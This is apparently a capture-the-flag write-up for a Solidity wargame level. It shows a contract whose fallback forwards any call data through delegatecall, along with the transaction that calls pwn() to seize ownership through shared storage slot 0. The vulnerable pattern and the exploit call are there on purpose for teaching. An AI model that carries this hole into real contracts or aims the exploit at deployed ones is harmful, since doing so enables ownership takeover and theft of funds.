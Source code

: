 # Delegation

```solidity
contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

We see a fallback function we can invoke using *contractInstance.call(bytes4(sha3("functionName(inputType)"))*. You send 4 bytes of the sha3 which identifies the method you are calling.

Since it is a fallback function you dont need the *functionName*, just data. If the fallback function has *payable* you will need to send some ether also. So we will invoke the *fallback* function -> *delegatecall* function inside delegate -> *pwn()* public function.

Since delegatecall sends msg.data we should send *bytes4(sha3("pwn()"))* to the *fallback* function. 

Inside *pwn()* is *owner = msg.sender*. Since *Delegate* storage (slot 0) is *Delegation* storage(slot 0), we know the owner in Delegate point to the owner in Delegation.

```solidity
await sendTransaction({
  from: "0x1733d5adaccbe8057dba822ea74806361d181654",
  to: "0xe3895c413b0035512c029878d1ce4d8702d02320",
  data: "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"
});
```

I ripped this off the walkthrough since I'm too dumb to figure it out fully.